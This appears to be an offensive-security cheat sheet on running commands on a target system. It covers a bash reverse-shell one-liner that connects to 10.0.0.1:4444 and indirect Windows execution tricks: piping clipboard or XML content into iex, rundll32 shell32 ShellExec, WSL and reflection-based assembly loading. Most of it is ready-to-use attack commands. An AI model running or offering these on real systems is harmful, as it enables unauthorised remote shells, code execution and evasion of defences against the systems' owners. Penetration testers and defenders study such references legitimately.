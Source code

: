 # Execution via System Commands

We may execute system commands in a target system.

## Basic Commands

```powershell
bash -c "echo hello"
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

## Indirect Execution

- via Clipboard

    ```powershell
    echo whoami | clip # Copy "whoami" string to clipboard
    Get-Clipboard | iex # Execute the content of clipboard
    ```

- via XML

    ```powershell
    "whoami" | Export-clixml evil.xml # Write "whoami" to XML file
    iex $(Import-Clixml evil.xml) # Execute the cotent of the XML file
    ```

- via Job

    ```powershell
    $Job = Start-Job {Write-Host "Hello!"} # Start new job
    Wait-Job -Job $Job
    Receive-Job -Job $Job # Receive the result of the job
    Remove-Job -Job $Job # Remove the job
    ```

- via Shell32

    This command executes `whoami` and write the result to `result.txt`. This command does not write the result in terminal, so we need to write the text file.

    ```powershell
    rundll32 shell32.dll,ShellExec_RunDLL "cmd.exe" "/c whoami > result.txt"
    ```

- via WSL

    This command is executed via WSL. Note that WSL must be enabled in a target system.

    ```powershell
    wsl cmd.exe /c whoami
    ```

## Executing C#

```powershell
iex '[System.Reflection.Assembly]::Load("System.Windows.Forms");[System.Windows.Forms.MessageBox]::Show("Hello world")'
```